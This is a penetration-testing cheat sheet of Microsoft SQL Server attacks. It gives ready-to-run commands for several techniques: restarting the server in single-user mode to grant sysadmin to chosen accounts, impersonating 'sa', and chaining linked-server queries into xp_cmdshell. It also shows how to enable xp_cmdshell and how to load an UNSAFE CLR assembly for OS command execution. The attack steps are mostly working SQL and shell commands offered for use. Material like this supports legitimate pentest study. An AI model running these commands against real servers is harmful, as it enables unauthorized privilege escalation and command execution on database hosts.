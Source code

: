 # MSSQL attacks

### SA single mode technique

{% hint style="info" %}
This technique can be used to add any user as SYSADMIN \(sa\).

It requires Local Administrator privilege on the box.
{% endhint %}

1. Stop the services \(both server and agent\)

![](../../../../.gitbook/assets/image%20%28205%29.png)

    2. Using an elevated command prompt, start the server into Single Mode \( `-m`\)

```csharp
"C:\Program Files\Microsoft SQL Server\MSSQL15.SQLEXPRESS\MSSQL\Binn\sqlservr.exe" -m  -sSQLEXPRESS
```

![](../../../../.gitbook/assets/image%20%28223%29.png)

  3. Download SQLCMD utility from Microsoft website:

{% embed url="https://go.microsoft.com/fwlink/?linkid=2142258" %}

  4. From an another cmd prompt, use SQLCMD to connect to the server:

```csharp
sqlcmd -S SQLUAT
```

  5. Grant sa access to anyone

```csharp
sp_addsrvrolemember 'crook\homer_potter', 'sysadmin'
GO
sp_addsrvrolemember 'crook\sqladmin', 'sysadmin'
GO
```

![](../../../../.gitbook/assets/image%20%28251%29.png)

  6. Restart the SQL server as usual and enjoy.

![](../../../../.gitbook/assets/image%20%28213%29.png)

### Impersonation 

#### List impersonation account

```c
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'
```

### Login As

```csharp
EXECUTE AS LOGIN = 'sa'
```

### RPC out

#### Enumeration

```csharp
select * from master..sysservers
```

![](../../../../.gitbook/assets/image%20%2887%29.png)

### Database Links

```csharp
select * from openquery("SERVER01", 'select * from master..sysservers')
```

```csharp
select * from openquery("sql1",'select * from openquery("server2",''select * from openquery("server3",''''select @@version as version;exec master..xp_cmdshell "powershell whoami)'''')'')')
```

### XP\_cmdshell Stored Procedures

#### shell

```csharp
EXECUTE AS LOGIN = 'sa'
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
exec master..xp_cmdshell "powershell ls /"
```

![](../../../../.gitbook/assets/image%20%2847%29.png)

### Custom Assemblies

```text
EXECUTE AS LOGIN = 'sa';
USE msdb;  EXEC sp_configure 'show advanced options',1 ; RECONFIGURE ;
EXEC sp_configure 'clr enabled',1; RECONFIGURE ;
EXEC sp_configure 'clr strict security', 0; RECONFIGURE ;
DROP PROCEDURE IF EXISTS dbo.cmdExec ;
DROP ASSEMBLY IF EXISTS myAssembly;
CREATE ASSEMBLY myAssembly FROM 'c:\tools\cmdExec.dll' WITH PERMISSION_SET = UNSAFE;
CREATE PROCEDURE [dbo].[cmdExec] @execCommand NVARCHAR (4000) AS EXTERNAL NAME [myAssembly].[StoredProcedures].[cmdExec];
EXEC cmdExec 'whoami';
```

![](../../../../.gitbook/assets/image%20%28116%29.png)

